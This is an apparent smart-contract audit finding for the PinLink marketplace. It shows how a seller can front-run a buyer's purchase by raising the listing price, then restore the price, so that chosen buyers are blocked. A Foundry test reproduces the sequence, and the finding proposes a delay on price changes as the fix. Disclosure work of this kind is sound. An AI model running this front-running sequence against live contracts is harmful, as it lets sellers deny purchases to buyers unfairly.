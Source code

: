 Upbeat Graphite Scorpion

Medium

# Seller can selectively deny specific buyers and choose to sell to someone particular

## Description
A seller could:
1. List an asset at a certain price or `usdPricePerFraction`.
2. When they see a buyer's purchase transaction in the mempool front-run with [modifyListing()](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L269) to increase the price so the buyer's `maxTotalPinAmount` parameter inside [purchase](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L288) is exceeded.
3. The buyer's transaction fails with `SlippageExceeded`.
4. The seller back-runs with another `modifyListing()` to restore the original price.

This allows sellers to selectively deny specific buyers while maintaining the listing for others they prefer to sell to. This allows them to choose the specific buyer to sell to.

## Impact
1. **Selective selling**: The seller could discriminate against specific addresses, perhaps to sell only to approved buyers from off-chain agreements.
2. **MEV extraction**: If the PIN token price is volatile, a seller could monitor price movements and block purchases when the price is disadvantageous to them.
3. **Regulatory circumvention**: In some jurisdictions, refusing to sell based on certain characteristics is illegal. This provides a technical method to do so with plausible deniability.

## Proof of Concept
Add this as a new file inside `test/pinlinkShop/` and run to see it pass:
```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.27;

import {BaseStakingShopTests} from "test/pinlinkShop/base.t.sol";
import {PinlinkShop, Listing} from "src/marketplaces/pinlinkShop.sol";

contract SandwichAttackTest is BaseStakingShopTests {
    bytes32 listingId;
    uint256 initialPrice = 1000e18; // 1000 USD per fraction
    uint256 sandwichedPrice = 5000e18; // 5000 USD per fraction

    function setUp() public override {
        super.setUp();
        
        // Setup: Admin enables asset
        vm.startPrank(admin);
        pshop.enableAsset(address(fractions), asset1, admin);
        vm.stopPrank();
        
        // Alice buys fractions from admin and creates her own listing
        vm.startPrank(admin);
        bytes32 adminListingId = pshop.list(address(fractions), asset1, 50, 800e18, block.timestamp + 5 days);
        vm.stopPrank();
        
        _doPurchase(adminListingId, 20, alice);
        
        // Alice lists some fractions
        vm.startPrank(alice);
        listingId = pshop.list(address(fractions), asset1, 10, initialPrice, block.timestamp + 7 days);
        vm.stopPrank();
    }

    function test_sandwichAttack() public {
        uint256 amount = 5;
        uint256 initialQuote = pshop.getQuoteInTokens(listingId, amount);
        
        // Take a snapshot to show purchase would succeed without sandwiching
        uint256 snapshotId = vm.snapshot();
        
        // Without sandwich attack - purchase succeeds
        vm.prank(bob);
        pshop.purchase(listingId, amount, initialQuote);
        
        // Verify purchase succeeded
        Listing memory listingAfterPurchase = pshop.getListing(listingId);
        assertEq(listingAfterPurchase.amount, 5, "5 fractions should remain after purchase");
        
        // Revert to state before purchase
        vm.revertTo(snapshotId);
        
        // Now demonstrate the sandwich attack
        // 1. Alice front-runs Bob's transaction and increases the price
        vm.prank(alice);
        pshop.modifyListing(listingId, sandwichedPrice, 0);
        
        // 2. Bob's transaction will now fail with SlippageExceeded
        vm.expectRevert(PinlinkShop.SlippageExceeded.selector);
        vm.prank(bob);
        pshop.purchase(listingId, amount, initialQuote);
        
        // 3. Alice back-runs and restores the original price
        vm.prank(alice);
        pshop.modifyListing(listingId, initialPrice, 0);
    }
}
```

## Mitigation 
A potential mitigation would be implementing a time delay between price modifications before allowing them to take effect, at least a block or two.